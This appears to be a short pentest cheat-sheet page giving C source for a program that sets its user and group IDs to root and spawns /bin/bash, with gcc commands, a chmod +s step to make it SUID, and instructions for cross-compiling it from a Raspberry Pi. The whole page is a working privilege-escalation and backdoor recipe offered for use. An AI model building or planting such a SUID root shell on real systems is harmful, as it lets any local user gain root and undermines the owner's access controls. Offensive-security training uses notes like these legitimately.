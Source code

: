 # General

### C code that spawns a root shell

To be ran as `sudo` or with `SUID` bit

_**shell.c**_

```c
#include <stdlib.h>
#include <unistd.h>

int main(){
 setgid(0); // set gid=0
 setuid(0); // set uid=0
 system("/bin/bash"); // spawns a shell as root
 return 0;
}
```

Compile with `gcc`, and relevant flags:

```bash
$ gcc shell.c -o shell
$ chmod +s shell
```

#### Cross-compiling for x86\_64 on an aarch64 machine (Raspberry PI)

```bash
$ sudo apt install gcc-x86-64-linux-gnu
$ x86_64-linux-gnu-gcc shell.c -o shell -static

$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked ...
```
